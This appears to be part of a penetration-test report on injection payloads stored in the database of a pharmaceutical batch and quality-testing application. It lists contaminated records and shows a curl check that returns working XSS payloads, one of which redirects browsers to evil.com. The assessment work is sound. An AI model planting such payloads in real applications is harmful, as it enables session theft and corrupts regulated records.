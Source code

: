 
## DATABASE CONTAMINATION ANALYSIS

### Current Injection Payload Distribution

#### Batch Records Contaminated
```sql
-- Sample contaminated batch records:
ID 6: XSS payloads in all fields
ID 8: Advanced XSS with cookie theft
ID 9: SQL injection in manufacturer field
POLYGLOT_XSS: Multi-context injection vectors
```

#### Quality Test Records Contaminated
```sql
-- Sample contaminated quality test records:
ID 10: Unauthorized admin role injection
ID 11: Complete XSS payload injection
ID 12: SQL injection in tester ID
FILE_INCLUSION: Directory traversal attempt
```

#### Audit Log Records Contaminated
```sql
-- Sample contaminated audit records:
ID 27: XSS data exfiltration payloads
TEMPLATE_INJECTION: Server-side template attempts
Multiple XSS attempts across action/details fields
```

### Data Integrity Impact Assessment

**🔴 CRITICAL DATABASE CONTAMINATION**:
- **Total Malicious Records**: 15+ across all tables
- **XSS Payloads**: 20+ stored script injections
- **SQL Injection Attempts**: 5+ malicious SQL strings
- **Regulatory Data Corruption**: FDA-required records contaminated
- **Audit Trail Compromise**: Security logs contain malicious payloads

---

## PAYLOAD PERSISTENCE VERIFICATION

### Stored XSS Confirmation
```bash
# Verification: Retrieving stored XSS payloads
curl -s "http://localhost:5000/api/batches" | grep -E "(script|img|svg|iframe)"

# Result: All XSS payloads successfully retrieved from database
"batchId":"<script>alert(\"XSS_BATCH_ID\")</script>"
"productName":"<img src=x onerror=alert(\"XSS_PRODUCT\")>"
"manufacturer":"</script><script>document.location=\"http://evil.com\"</script>"
"manufacturerLicenseId":"<svg onload=alert(\"SVG_XSS\")>"
```
